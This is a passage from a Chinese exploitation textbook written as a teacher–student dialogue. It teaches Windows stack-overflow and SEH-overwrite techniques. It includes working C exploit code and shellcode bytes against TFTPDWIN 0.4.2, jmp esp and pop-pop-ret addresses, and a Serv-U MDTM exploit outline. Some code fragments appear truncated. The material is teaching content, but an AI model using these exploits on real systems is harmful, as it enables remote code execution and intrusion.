老师继续说道：“来看看在 Windows 下如何利用系统核心 DLL 里的指令来完成跳转吧。我们使用系统核心 DLL 中的 jmp esp 来覆盖返回地址，而把 shellcode 紧跟在后面，这样就可以完成跳转到我们的 shellcode 中。其利用格式是 **NNNNNNNNRRRRSSSSSSS**，N = NOP，S = Shellcode，R = jmp esp 的地址。”

小菜们急了：“等一下，为什么用 jmp esp 的地址覆盖，就可以跳到后面的 shellcode 中呢？”

“这是关键的地方了，理解了这个也就理解了整个缓冲区溢出攻击！你们看，覆盖后的缓冲区成这个样子，如图 4-31。”

“当程序返回时，执行 Ret，就是把保存的地址赋给 eip，这样 eip 为 jmp esp 的地址，而 esp 指向 shellcode 的第一个字节——上图中的 S0 了。然后，计算机不知道我们做了手脚，继续往下执行，执行 eip 指向的指令 jmp esp，而 esp 指向的正是 S0，这样就执行到我们的 shellcode 中了！”

> **小知识：** EIP 指令指针，指向下一条要执行的命令，一般自动加 1。ESP，堆栈指针，指向堆栈的顶部。在 push 时，esp 往上走，减 1；在 pop 时，esp 往下走，加 1。

“我再重复一下这个过程，原来保存的 EIP 被我们覆盖成了 jmp esp 的地址，这样程序在返回后，就会去执行 jmp esp。而此时的 esp 指向了我们的 shellcode，那当然下一步就是执行我们的 shellcode 了！”老师耐心地说道。

“哦！明白了！”

“而 jmp esp 的地址会由于系统版本的不同而不一样。比如在 Win2000 的 User32.dll 中，jmp esp 指令的地址分别为 sp0：0x77e2e32a，sp1：0x77e8898b，sp2：0x77e0492b，sp3：0x77e188a7，sp4：0x77e22c75。以前有很多攻击程序，都需要带上对方版本的参数，就是这个原因。”

“那个 printer 溢出漏洞工具要带不同的版本参数，就是这个原因啊！”小菜们想起来了。

“是的，但随着技术的发展，大家又发现了可以通用的地址，比如 0x7FFA4512。这样攻击程序的统一化和简单化有了很大的提高。从这里可以看出，技术是不断地在发展进步的，所以如果自己有什么发现，一定要公布出来，促进大家讨论，反过来也促进自己提高，否则技术会很快过时的。”

小菜们点了点头。

“好了，把它们综合起来吧！还是对于那个程序，我们把它覆盖成这个样子，如图 4-32。”

“先是 8 个 A 填充完 output，然后 4 个 A 填充 EBP，再跟 JMP ESP 的通用地址 0x7FFA4512，后面的就是我们的 Shellcode 代码，合起来的构造代码就是下面这样，如图 4-33。”

```c
#include <windows.h>
#include <stdio.h>
#include <string.h>

char strName[] =
"AAAAAAAA"  // output[8] 填充
"AAAA"      // 填充 ebp
"\x12\x45\xFA\x7F"  // 覆盖成 jmp esp 的地址
"...";      // shellcode 代码

int main()
{
    char strOutput[10];
    strcpy(strOutput, strName);
    for (int i = 0; i < 8; i++)
        printf("%c", strOutput[i]);
}
```

# 第四章 漏洞利用编程

“好了，我们在程序中把 name 赋成这样的值。它看起来很奇怪，但会得到很奇妙的结果。我们执行，就会弹出我们想要的 DOS 对话框了，如图4-34！”

“哇！”台下惊叹一片。

“大家看，写 main 函数的程序员，他只会去负责读 name 并赋给 output 数组，根本不会感觉到 name 数组中会隐藏这样精心构造的恶意代码；对于任何的 name，他都会把它读入并作为正常的东西处理，但会出现他想不到的结果，呵呵。”

“这样，我们就完成了首个缓冲区溢出攻击的编写了。感觉怎么样？有收获没有？”

小菜们拼命地点头：“有！不错不错！”

“好，有收获就好！我们看一个实际的缓冲区溢出漏洞的利用编写吧。”

图4-34

#### （4）实际例子：TFTPDWIN 漏洞的利用

TFTP（Trivial File Transfer Protocol，简单文件传输协议）是 TCP/IP 协议簇中的一个用来在客户机与服务器之间进行简单文件传输的协议，提供不复杂、开销不大的文件传输服务。TFTP 基于 UDP 上，提供不可靠的数据流传输服务，不提供任何授权与认证机制，使用超时重传方式来保证数据的到达。

TFTPDWIN 是 ProSysInfo 开发的 Windows 平台下的一款多线程的 TFTP 协议服务器，其运行界面如图4-35所示。

图4-35

运行程序后，在命令行下输入 netstat -an，可以看到机器开启了 69 端口，这就是 tftp 的服务端口，如图4-36。

TFTPDWIN 0.4.2 版本在处理用户请求时存在缓冲区溢出漏洞，远程攻击者可以利用此漏洞在服务器上执行任意指令，其漏洞公告如图4-37所示。

图4-36

“启动程序后，我们使用 tftp 客户端连接上去试试。在 Windows 下有现成的 tftp 的客户端——tftp.exe，可以通过它连接到 tftp 服务器。如果不知道用法，可以在 DOS 下输入 tftp -?，就会显示出详细的帮助信息了，如图4-38。”

“如果要下载一个文件，其命令为 tftp host -get 文件名。比如我们要下载 sn.txt 文件，则输入 tftp 127.0.0.1 -get sn.txt，其结果如图4-39所示，tftp 显示下载成功，以及所传的字节数和所用的时间。”

图4-38

图4-37

“如果我们用 A 填充，不断加大下载文件名的长度，到一定时候 TFTPDWIN 就会报错，如图4-40。”

小菜们点点头：“这表明了有溢出漏洞，而且 0x41414141 就是我们输入的 AAAA 值。”

“不错，大家回想一下我们刚才讲的溢出三步曲，第一步是需要定位溢出点。”老师说道，“这个很简单，我们可以逐步加长度或者采用二分法改变长度的方法，确定出溢出点。”

“好，我们试试！”小菜们逐步增加 A 的长度，发现当 A 到达 288 个的时候，就会出现报错对话框。

“定位溢出点的另一种方法，就是发送形如 Aa00 Aa01 Aa02 Aa03 Aa04……Aa99 Ab00 Ab01……Az99 Ba00 Ba01 这样的字符串，这样的结构可以让我们直接计算出溢出点的位置。比如，如果报 Bc84 出错，那么溢出点就应该是：(B-A)*24*100 + (c-a)*100 + 84 = 1*24*100 + 2*100 + 84 = 2684。”

“哦，这个很方便，得记下来！”

“为了验证函数返回点是否在这里，我们还需要再确认一下，先输入 284 个 A，然后接 4 个 B，这次报错显示的是 0x42424242 指令引用的内容不能为 read，如图4-41！”

“0x42 就是我们输入的字符 B，说明定位果然正确了，就是 288 的长度。溢出三步曲的第二步是 Shellcode 的编写，我们已经完成了一个开 DOS 窗口的 Shellcode，就直接使用它吧。溢出三步曲的第三步是跳到 Shellcode 执行，该怎么办呢？”

小菜们挠挠头，边回忆边说道：“我们只需要在 288 的地方覆盖成 JMP ESP 的地址，然后接我们的 Shellcode，这样返回的时候就可以跳进我们的 Shellcode，从而完成攻击了。”

“不错，看来大家都掌握溢出三步曲了啊。这样构造的文件名结构就像图4-42一样。”

“我们利用一下，在 288 的地方改写成‘砸锤’发送过去，就像下面一样，结果会怎样呢，如图4-43。”

“哇！又锁屏了，如图4-44！”

“我明白了，玄妙就在砸锤上吧！”小菜 A 叫了起来！

“呵呵，是的。砸锤是 Windows 2000 SP4 上 User32.dll 中 LockWorkStation 的地址。”

“怪不得溢出函数返回后，就进入执行 LockWorkStation，所以锁屏了！”小菜们恍然大悟，也明白了前面运行 Mrinfo 锁屏的原因，想必是 56 个字节后溢出到返回地址了。

“那要进入我们的 Shellcode，就应该把砸锤改成 JMP ESP 的地址，然后后面接 Shellcode 吧。”

“是的！但该漏洞大家要注意一个地方。”老师额外强调道，“溢出函数第一个参数是一个地址，程序要从这个地方读取一些数据。这意味着我们要紧接 JMP ESP 地址覆盖一个可读的地址，否则在读取数据的时候，会因为该地址不可读而报错。就是说，要稍微修改一下，覆盖成这个样子，如图4-45。”

很好的工作。因为该地址是可读的，而 0x7178FF33 的指令含义是 XOR EDI, EDI；JS JMP 某处。XOR EDI, EDI 的结果为 0，是绝不会跳转的，因此不会影响我们 Shellcode 的执行。现在，我们可以写个 UDP 网络程序，给 tftpd 发送我们精心构造的文件名了。”老师说道，“UDP 编程只需要调用 sendto 函数，在 sendto 函数的参数里指明要发送的数据和服务器地址即可。发送的构造数据要遵循 tftp 协议格式，如图4-46。”

“因为我们是请求文件，所以发送的数据是 `0 1 284个A 0x7FFA4512 0x7178FF33 Shellcode \0 netascii\0`，就是请求文件名为 `284个A 0x7FFA4512 0x7178FF33 Shellcode` 的文件了，代码如下。”

```c
#include <windows.h>
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib, "ws2_32")
// tftp 协议格式
// 请求文件模式是 netascii
char Shellcode[] =
// 以下是 shellcode，开 dos 窗口
"\x8B\xEC\x83\xEC\x08...";

int main()
{
    // 初始化 Winsock
    WSADATA Wsadata;
    WSAStartup(MAKEWORD(2,2), &Wsadata);

    // 创建 UDP socket
    SOCKET SendSocket = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);

    // 建立 RecvAddr 结构，例如为 127.0.0.1，端口为 tftp 的 69
    sockaddr_in RecvAddr;
    RecvAddr.sin_family = AF_INET;
    RecvAddr.sin_port = htons(69);
    RecvAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    // 构造数据 RRQ filename mode
    char SendBuf[1024];
    memset(SendBuf, 0, sizeof(SendBuf));
    // RRQ
    int p = 0;
    SendBuf[p++] = 0;
    SendBuf[p++] = 1;

    // 开始构造文件名
    int i;
    for (i = 0; i < 284; i++)
        SendBuf[p++] = 'A';

    // 284A 0x7FFA4512
    SendBuf[p++] = '\x12';
    SendBuf[p++] = '\x45';
    SendBuf[p++] = '\xFA';
    SendBuf[p++] = '\x7F';

    // 284A 0x7FFA4512 0x7178FF33
    SendBuf[p++] = '\x33';
    SendBuf[p++] = '\xFF';
    SendBuf[p++] = '\x78';
    SendBuf[p++] = '\x71';

    // 284A 0x7FFA4512 0x7178FF33 Shellcode
    memcpy(&SendBuf[p], Shellcode, sizeof(Shellcode)-1);
    p += sizeof(Shellcode)-1;
    SendBuf[p++] = '\0';

    // 284A 0x7FFA4512 0x7178FF33 Shellcode\0 netascii\0
    sprintf(&SendBuf[p], "%s", "netascii");
    p += 8;
    SendBuf[p++] = '\0';
}
```

```c
// 向接收方发送数据报
printf("Sending datagram to the receiver");
sendto(SendSocket,
    SendBuf,
    ...,
    0,
    (SOCKADDR*)&RecvAddr,
    sizeof(RecvAddr)
);

// 发送完毕，关闭 socket
printf("Finished sending. Closing socket.\n");
closesocket(SendSocket);
WSACleanup();
return 0;
```

“我们测试一下，成功弹出我们可爱的 DOS 对话框了，如图4-47！”

“哈哈！首个例子利用成功！”小菜们高兴坏了。

“呵呵，是的。”老师看着小菜们沉浸在喜悦中，也不禁笑了。

“大家都写过这么多程序了，显然不会满足于只用黑盒法确定溢出点然后利用吧。大家还是应该分析一下漏洞程序的代码，弄清楚产生漏洞的根本原因，才所谓是：知己知彼，百战不殆。”

“哦？分析代码？什么代码？有源代码吗？”

“没有源代码的，Windows 下的很多商业软件都是没有源代码的，这就需要我们分析反编译后的汇编码了。为了分析，拿出我们的反编译利器——OllyDbg 吧。”

> 小知识：OllyDbg 是一种具有可视化界面的 32 位汇编级分析调试器，可以在没有源代码的时候进行分析和调试。

“OllyDbg 运行后的界面如图4-48所示，主面板是指令面板，当然是汇编指令哦；左上是寄存器面板；左下是内存内容面板；右下是堆栈内容面板。”

“我们在实战中来掌握 OllyDbg 的使用吧，启动 TFTPDWIN，在 OllyDbg 中点击菜单的 File->Attach，选择附加 TFTPDWIN 的进程 tftpd，如图4-49。”

“附加成功后，就可以以汇编的形式调试该程序了，按 F9 让程序继续执行。我们用 tftp 客户端提交一个超长的文件名参数，服务器出现错误时，会被 OllyDbg 捕获到，如图4-50。可以看到最下面的状态栏显示访问违规，而右边的堆栈情况可以看到保存的返回地址。”

“栈里保存的返回地址是 00406437 RETURN to tftpd.00406437 from <JMP &msvcrt.strcpy>，所以在代码段按 Ctrl+G，输入 00406437，可以看到代码，如图4-51。”

“在 00406437 的上方，0x00406432 调用了 strcpy，报错的原因是我们输入的文件名太长，把那个读取地址都覆盖了，程序就会读取 [41414141]，当然会出错了。这个问题在前面我们已经强调过了。既然找到了程序的执行流程，我们在这里设个断点，按 Ctrl+F2 重新启动程序，然后再输入一个正常的 tftp `GET` 命令，断下来后就可以按 F8 一步一步跟踪执行了。”

“哦，调试反汇编的代码和调试源代码差不多嘛！”小菜们觉得。

“是的，关键还是思路。我们一步步地往下执行，很容易发现有问题的代码如下。”

“该代码对应的源代码其实就是 `strcpy(EBP-118, EBP+C)`，把 EBP+C 里面的数据拷贝到 EBP-118 中，EBP+C 里面就是我们输入的文件名字串，用 strcpy 函数拷贝到 EBP-118 中，因为 strcpy 不检测长度所以就可能溢出，可以一直拷贝覆盖掉后面的 EIP 了。我们精确计算一下，从 ebp-118h 到 eip 即 ebp+4 的地方，有 0x11C 即 284 个字节，也就是说覆盖 284 个字节就可以到达函数的返回 EIP，那再覆盖 4 个字节就可以覆盖 EIP 了！”

“唉，果然是 288！”小菜们明白了漏洞的真实形成！

“如果大家还继续跟踪，会发现在 ebp-228h 的位置放有 tftp 的安装位置；然后加上文件名，合成要下载文件的完整路径。但这已经和漏洞的利用没什么关系了，我就不再介绍了。既然都跟踪到了这里，我们可以采取另外一种解决覆盖参数导致不可读的办法，就是把 Shellcode 放在前面，把返回 EIP 地址直接覆盖成前面 Shellcode 的地址，这样就可以不覆盖参数，避免发生异常了，这种方法的覆盖结构如图4-52所示。”

“从 OllyDbg 中可以看到，如果把 Shellcode 放在前面，那么在栈中的地址为 0x00C6F304。我们就把 EIP 覆盖成该值，就能返回到那个地方执行。好了，我们先发送如此构造的文件名吧，代码如下。”

```c
#include <windows.h>
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib,"ws2_32")

// tftp 协议报文
// 文件名为：test\x00octet\x00
char Shellcode[] =
// 以下是 Shellcode，开 dos 窗口
"\x8B\xEC\x33\xFF\x57\x83\xEC\x08\xC6"
"\x45\xFC\x63\xC6\x45\xF8\x6F\xC6\x45\xF9\x60\xC6"
"\x45\xFA\x76\xC6\x45\xF8\x01\xC6\x45\xF9\x6E\xC6"
"\x45\xFA\x64\xC6\x45\xFB\x2E\xC6\x45\xFC\x63\xC6"
"\x45\xFD\x6F\xC6\x45\xFE\x6D\xC6\x45\xFF\x00\x8D"
"\xBF\x08\x01\x78\xFF\xD0";

int main()
{
    // 初始化 Winsock
    WSADATA wsaData;
    WSAStartup(MAKEWORD(2, 2), &wsaData);

    // 建立 UDP socket
    SOCKET SendSocket = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);

    // 建立 RecvAddr 结构，地址为 127.0.0.1，端口为 tftp 的 69
    sockaddr_in RecvAddr;
    RecvAddr.sin_family = AF_INET;
    RecvAddr.sin_port = htons(69);
    RecvAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    // 构造数据报 RRQ|filename|mode
    char SendBuf[1024];
    memset(SendBuf, 0, sizeof(SendBuf));
    // RRQ
    int p = 0;
    SendBuf[p] = 0;
    p++;
    SendBuf[p] = 1;
    p++;

    // filename
    int i;
    for(i=0; i<284; i++)
    {
        SendBuf[p+i] = 'A';
    }
``````c
SendBuf[p++] = '\x04';
SendBuf[p++] = '\xF3';
SendBuf[p++] = '\xC6';
SendBuf[p++] = '\0';

// shellcode 100 start
memcpy(&SendBuf[104], Shellcode, sizeof(Shellcode) - 1);
// mode
sprintf(SendBuf + p, "%s", "netascii");
p += 8;
SendBuf[p++] = '\0';

// 向接收方发送数据报
printf("Sending a datagram to the receiver...\n");
sendto(SendSocket,
    SendBuf,
    p,
    0,
    (SOCKADDR *)&RecvAddr,
    sizeof(RecvAddr));

// 发送完毕，关闭 socket
printf("Finished sending. Closing socket.\n");

closesocket(SendSocket);
WSACleanup();
return 0;
}
```

图 4-53

“这样发送给服务端后，我们可以在 OllyDbg 中看到，函数返回时进入到 Shellcode 并执行了，如图 4-53。”

“我们测试一下，不用 OllyDbg 调试，直接运行 TFTPDWIN，然后运行我们的攻击程序，看，还是弹出了 cmd shell，攻击成功，如图 4-54！”

图 4-54

“哇！溢出、汇编、TFTP 编程，就像看《变形金刚》擎天柱变形时一样过瘾啊！”小菜们感叹道：

“呵呵，可是精彩的内容太多，会让人有点分不清的。今天就到这里吧。大家回去后好好消化一下今天所讲的内容，遇到了什么问题先尝试解决，我们下节课再进行讨论。好！收工放学！”

## 4.3 覆盖异常处理链

“哈哈！说稀奇啊真稀奇！”小菜 A 一进门就和同学们兴高采烈地讨论了起来，“我课后去测试溢出例子程序时，竟然发现了一个天大的秘密！”

“哦？什么秘密啊？”小菜们都围了过来。“待我把问题细细道来。”

图 4-55

### 4.3.1 问题的提出

“看！”小菜 A 说道，如图 4-55。

“怎么了？”

“没有出现 DOS 控制台哟！”

“我晕，那有什么奇怪的。”大家说道，“你用的 JMP ESP 地址错了！通用的 JMP ESP 地址是 0x7FFFA452，你写成 0x7FFFA245 了，当然不行。”

“哈哈，我不是说这个。”小菜 A 笑着说道，“你们没有发现吗？虽然返回地址不对，没有弹出 DOS 控制台，但这里连出错对话框也没有弹出来啊。”

### 4.3.2 Windows 下异常处理简介

“而且我还发现更奇特的现象！”小菜继续说道。

“什么，什么？”大家感兴趣地问道。

“我把返回地址以及后面 Shellcode 的内容全用 `\x41\x41\x41\x41` 覆盖，就像下面一样，大家认为结果会怎样呢？”

“会弹出错误对话框，报 `\x41\x41\x41\x41` 不能执行啊！”

“是的，但如果我继续加长 strName 数组的长度，长度为 40 byte 的时候，还弹出错误对话框，如图 4-56。”

“但当加到 44 byte 的时候，就不会弹出错误对话框了，大家快看，如图 4-57！”

“啊！真的呀！”

“哈哈！不在沉默中爆发，就在沉默中灭亡！我正式命名为缓冲区溢出沉默与爆发定理！”小菜 A 得意地说道。

“那是因为覆盖到异常处理链了！”

这时老师推门进来了。

待同学们坐好后，老师说道：“这位同学的发现非常不错！大家要向他学习！”

小菜 A 的脸上露出了得意的笑。

“这个问题的原因是 Shellcode 比较长，会一直覆盖，直到把 Windows 的异常处理链 SEH 也覆盖到了。”老师继续解说道。

“覆盖到了异常处理链？”

“大家首先想想，我们在上面的利用方式中，是把返回地址覆盖成为一个地址，但如果是个无效的地址呢？那里指向的数据或许不能读，或许不能执行，那会怎么样呢？”

“哦，那就是系统会弹出个对话框报错，我们点确定，就会终止运行！”

“是的，作为一个系统级的程序，Windows 内部有健全的出错处理机制。简单地说，如果运行时有错误产生，Windows 就会跳到一个专门处理错误的地方，对应不同的错误，执行不同的代码。上面执行的代码就是弹出个对话框报错。Windows 处理错误的机制如图 4-58 所示。”

“当系统遇到一个它不知道如何处理的异常时，比如刚才的代码非法，那它就会查找异常处理链表，找应对这种异常的处理程序，找到对应的处理程序后，就把保存的处理程序的地址赋给 EIP，这样系统就会执行处理程序，以避免系统崩溃。”老师继续解释，“我再告诉大家吧，异常处理链表的最后一个处理程序，就是大家看到的弹出对话框报错。而刚才那位同学发现的问题的原因，就是因为 Shellcode 过长，把异常链也覆盖成 41414141，因为返回地址不对触发异常，而 Windows 异常处理已经找不到下一个异常处理链的地址了，就不会进入到最后的默认异常处理；进入不到默认异常处理，当然也不会弹出出错对话框了。”

“哦，是这样啊！我们让系统的错误处理都出问题了啊！”大家恍然大悟。

“明白了原理，我们再来实际地调试一下程序吧，这次调试不是在 VC 中，而是用 OllyDbg 哦！我们选择 OllyDbg 菜单的‘文件->打开’，运行我们的可执行程序。按 F8 单步执行，一开始就是建立异常处理链，代码如下。”

```asm
0040126A | 68 643F4000       | PUSH over 00403F64 ; SE handler installation
0040126F | C7 45 A4 00000000 | MOV [EAX-DWORD PTR SS:[...]]
00401276 | 50                | PUSH EAX
```

“执行后，堆栈中的异常处理链结构如下所示。”

```text
0012FFB0    0012FFE0
0012FFB4    00403F64  SE handler

------->    0012FFE0   FFFFFFFF  End of SEH chain
0012FFE4    77EB8B86  SE handler
```

图 4-59

“SEH 果然是这样链表结构啊！”大家议论纷纷。

“大家看，0012FFB0 里面存了下一个异常链结点的地址 0012FFE0，而 strOutput 的起始地址为 0012FF88。我们按 F9 执行，当函数返回时，由于返回地址为 0x41414141，就会产生错误，该错误被 OllyDbg 捕获中断，我们观察右下方的内存窗口，被覆盖的情况如下。”

```text
0012FF78  41414141 84104000  AAAAQ
0012FF80  41414141 41414141  AAAAAAAA
0012FF88  41414141 41414141  AAAAAAAA
0012FF90  41414141 41414141  AAAAAAAA
0012FF98  41414141 41414141  AAAAAAAA
0012FFA0  41414141 41414141  AAAAAAAA
0012FFA8  41414141 41414141  AAAAAAAA
0012FFB0  41414141           AAAA
```

图 4-60

“44 个 `\x41` 后，正好覆盖到 0012FFB0。可以清楚地看到被覆盖成了如下情况。”

```text
0012FFB0  41414141  Pointer to next SEH record
0012FFB4  00403F00  SE handler
```

“0012FFB0 的位置已经被覆盖了，里面本来放的是 0012FFE0，指向异常链的下一个结点，而现在被我们覆盖成了 41414141，Windows 找不到最后的默认异常处理地址了，当然就没有对话框了！”

“哦，bingo! 从 strOutput 的 0012FF88 到 SEH 的 0012FFB0 正好 44 个字节。”小菜们算了一下后说道，“怪不得是要这样！”

“对，我们把 Shellcode 的第 48 字节的值改为 0x11111111，然后用 OllyDbg 加载运行。看，发生异常后，果然进入到 0x11111111 的地方执行了，如图 4-61！”

“是啊！”经过了代码的分析和说明，小菜们已经完全明白了整个道理。

### 4.3.3 覆盖异常处理——JMP EBX

“在 Windows 溢出攻击中有两大正宗门派，除了覆盖函数返回地址的方法外，另一大门派就是覆盖异常处理了。利用异常处理就要使用 Windows 的一个内部机制——在判断是否使用现在指向的异常处理程序时，EBX 会自动变为下一处理点的地址，这样可以把异常处理地址连接起来，形成一个异常处理串。所以在刚进入异常处理、判断是否使用处理程序 1 时，EBX 指向保存处理程序 2 的地址，就像图 4-60 一样。大家可以想象：如果系统判断不使用处理程序 1，就从 EBX 得到处理程序 2 的地址，并对处理程序 2 进行判断；而 EBX 又自动变为处理程序 3 的地址。这样就形成一个异常处理串，可以最后寻找到链表结束而不中断。”

“哦，太奇妙了！”大家感叹道。

“呵呵，比尔可不是吃干饭的。”老师笑道，“但这样就给了我们绝佳的机会！”

“哦？”大家努力地倾听着。

“这里我们故意把返回地址覆盖成一个错误的地址。这样出错时，Windows 就会跳到处理错误的入口点，而 EBX 就在入口前 4 个字节的地方，那我们把错误入口处覆盖为 JMP EBX 的地址，那样就会跳到前 4 个字节了。跳到前 4 个字节，怎么跳到 Shellcode 呢？在这里我们写入 JMP 04，往后跳 4 个字节，正好跳过覆盖值，到达我们的 Shellcode。所以在这里我们就毫不客气地把两部分一起覆盖，成下面这样，那就可以跳到 Shellcode 了，这就是接异常，听起来很有成就感哦，如图 4-61。”

# 第四章 漏洞利用编程

“哦哦哦……原来是这样啊！”同学们嚷道，“我们也尝试着利用吧！”

“好，我们先是覆盖数组、EBP、EIP，然后 40 个字节到达 SEH 链，先是 **JMP 06**、**JMP 04**，再是 **JMP EBX** 的地址。对于 JMP EBX 地址，Windows 中也有一个通用的异常利用地址 0x7FFA1571，然后再接我们的 Shellcode，其结构如图 4-62 所示。”

“落实到构造代码上，就应该是这个样子。”

```c
char strName[] =
"\x41\x41\x41\x41" // name[0]-name[3]
"\x41\x41\x41\x41" // name[4]-name[7]
"\x41\x41\x41\x41" // 覆盖 EBP
"\x41\x41\x41\x41" // 覆盖 EIP
"\x41\x41\x41\x41" // 1
"\x41\x41\x41\x41"
"\x41\x41\x41\x41"
"\x41\x41\x41\x41"
"\x41\x41\x41\x41" // 5
"\x41\x41\x41\x41"
"\x41\x41\x41\x41"
"\x41\x41\x41\x41"
"\x41\x41\x41\x41"
"\x41\x41\x41\x41" // 10
"\xEB\x06\xEB\x04"
"\x71\x15\xFA\x7F"
// 以下是 shellcode——开 DOS 窗口
"\x55\x8B\xEC\x33\xC0\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\x00\x5D\x6D\x6B\x7F\x43\x00\x45\xF8\x62\x60\x40\x79\x54\x00\x45\xFA\x2E\xC6\x45\xFB\x44\x00\x45\xFD\x4C\xBA"
"\xC7\x05\xE7\x7F" // LoadLibraryA sp4 上地址为 77E95C1h
"\x52\x8D\x45\xF4\x50\xFF\x55\xF0"
"\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E"
"\x89\x45\xF8\xBB\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x8B\x55\xF4\x8D\x45\xF4"
"\x50\x8B\xD4"
"\xBF\xBE\x01\x78" // system sp4 上地址为 7801BEBFh
"\xFF\xD0" // call eax
"\x83\xC4\x12\x5D";
```

“我们快试试吧。”小菜们迫不及待地编译、运行，果然弹出了消失许久的 DOS 对话框了，如图 4-63。

老师最后补充道：“其实通用地址 0x7FFA1571 是 **pop pop ret** 指令的地址，因为发生异常时，堆栈中 ESP+8 的位置正好指向的是入口前 4 个字节，所以我们让机器执行 **pop pop ret**，就正好跳到该位置，再执行 **nop nop jmp 04**，就进入 Shellcode 了。”

### 4.3.4 实际例子：Serv-U 漏洞的利用

“明白了原理，我们再来看一个覆盖异常处理链的实际例子。上次课讲了 TFTP 服务器 TFTPWIN 漏洞的利用，这次就看一个 FTP 服务器软件漏洞的利用吧。Serv-U 是非常流行的 FTP 服务器，它功能强大，又简单易用，很多服务器都使用它。Serv-U 的安装界面如图 4-64 所示。”

“安装完毕后，可以对其配置，配置界面如图 4-65 所示。”

“建立账户，设置目录后，启动 Serv-U 服务，运行起来后界面如图 4-66 所示。”

- 小知识：Serv-U 可能注册码过期了。如果过期的话，服务器就会始终显示为 offline。遇到这种情况，在 license 里面重新输入一个合法的 key，即可正常使用了。

图 4-66

“Serv-U 以前的版本有一个 MDTM 处理漏洞，Mdtm 命令的作用是显示或更改一个文件的修改时间。如果显示一个文件的时间，其语法是 **Quote mdtm 文件名**。比如登录后，输入 **Quote mdtm mfc70.dll**，结果如图 4-67 所示。”

图 4-67

“显示的是 20050326114218，这和直接查看属性里的修改时间是一致的，如图 4-68。”

图 4-68

“如果要改变文件的修改时间，其语法格式是 **quote mdtm 时间 文件名**。如果输入的时间过长，就会引发溢出。比如输入 **quote mdtm 20020102112233+aaaaaaaaaaaaaaaaaaaaaaaaaaaa mfc70.dll**，就会发生错误，如图 4-69。”

“Serv-U 服务会被停止，如图 4-70。”

“哦！”台下说道，“果然服务挂了啊，真是想不到，看起来不起眼的参数小漏洞，都有可能造成系统被攻破啊。”

“呵呵，千里之堤，毁于蚁穴，就是这个道理。”老师接着说道，“我们来利用它吧。因为发生了异常，我们可以使用覆盖 SEH 的方法来利用。首先跟踪到有问题代码的地方，还是继续使用我们的 OllyDbg 吧。打开 OllyDbg，加载 ServUDaemon，然后再次发送过长的时间串，出错时就被 OllyDbg 截获了，如图 4-71。”

图 4-69

图 4-70

“大家可以看到，执行 0x0059BC56 拷贝时 ESI 被我们覆盖为 61616162 了，当然不能读，所以拷贝时出错了。我们在 0x0059BC56 设置断点，重新运行后再发送一次异常串，这次被我们主动断下来，就可以进行跟踪了。在登录时候，会在这个地方中断几次，按 F9 继续执行即可。动态跟踪可以很清楚地看到执行过程中各个变量值的改变，有问题的代码如下。”

```asm
0041FDD3   |> 8A16           MOV DL,BYTE PTR DS:[ESI]
0041FDD5   |. 47             INC EDI
0041FDD6   |. 8810           MOV BYTE PTR DS:[EAX],DL
0041FDD8   |. 40             INC EAX
0041FDD9   |. 46             INC ESI
0041FDDA   |. 0FBE0E         MOVSX ECX,BYTE PTR DS:[ESI]
0041FDDD   |. 83F9 20        CMP ECX,20        ; till space
0041FDE0   \.^75 F1          JNZ SHORT ServUDae.0041FDD3
```

图 4-71

“这段代码的意思是从 ESI 往 EAX 拷贝字符串，直到遇到空格为止，EDI 是计算长度的 len，换成高级语言如下。”

```c
EAX = EBP - 84h;
ESI = +aaaaaaaaa;
len = 0;
while (*ESI != ' ')
{
    *EAX = *ESI;
    EAX++;
    ESI++;
    len++;
}
```

“拷贝时没有进行长度检查，如果 +aaaaaaaaaa 过长，就会从 EBP-84h 开始一直覆盖下去，把后面要使用的变量给覆盖了，因此调用拷贝时就会报错了。大家注意，因为拷贝是在函数返回前”
```

# 第四章 漏洞利用编程

调用的；所以我们不能使用 JMP ESP 的方法，因为函数还没有到返回前就已经报错执行异常处理去了，所以我们需要用覆盖异常处理链的方法，尝试精心覆盖异常处理链，让它不去弹出出错对话框，而是跑去运行我们的 Shellcode。Shellcode 有现成的，如何覆盖异常处理链大家也很清楚，现在唯一的问题就是覆盖到异常处理链入口要多长的字符串才行。”


“对啊，对啊！”小菜们回答道。

“EBP 为 00F7D32C，因此 EBP-84h = 00F7D2A8，再找此时 SEH 的位置，这时 OllyDbg 的堆栈情况如图 4-72 所示。”

“在堆栈 00F7D2D8 的地方，OllyDbg 提示了 Pointer to next SEH record，而在 00F7D2DC 的地方，提示的是 SE handler。”

“嗯，这里就是我们需要的异常链了。”小菜们说道。

“是的，从 EBP-84h = 00F7D2A8 覆盖到 SEH 的入口 00F7D2D8，需要 D8-A8=30h=48 字节的长度。因此我们构造的字符串就是 +48 个 a，然后覆盖异常处理链 nopnopjmp04，jmp ebx，最后就是 Shellcode，其示意图如图 4-73 所示。”

“哦！看起来也不难嘛！”小菜们说道，“我们来写个 FTP 的登录程序试试。”

小菜们说做就做，不一会儿一个 FTP 客户端程序就写好了。程序的功能是连接服务器，发送用户名，发送密码，登录成功后发送构造的数据。

“好，我们试试吧！”小菜们编译、执行，哟，果然跳入 Shellcode 了，如图 4-74。

“哦，又成功了！”小菜们欢呼道。

## 4.4 一些常见的溢出检测及绕过措施

“大家经过这两节课的学习，应该明白了缓冲区溢出利用的基本原理，知道了缓冲区溢出漏洞有非常大的危害，而且历史上缓冲区漏洞也造成过非常大的损失，像 SQL 蠕虫王、红色代码、冲击波、震荡波等都是基于缓冲区溢出漏洞的。所以，水涨船高，软件开发的安全要求越来越严格，开发人员的意识也在不断地提高。”

“哦！”

“但是，如果编写的检查代码存在失误，就会被攻击者绕过，我们来看一些绕过的例子。”

### 4.4.1 基本的防范

“为了防范缓冲区溢出漏洞，常用的方法是进行边界检查，过滤掉过长的输入。比如像下面一样。”

```c
void bug_function(char* arg)
{
    char a[10];
    if (strlen(arg) < 10)
    {
        strcpy(a, arg);
    }
    return;
}
```

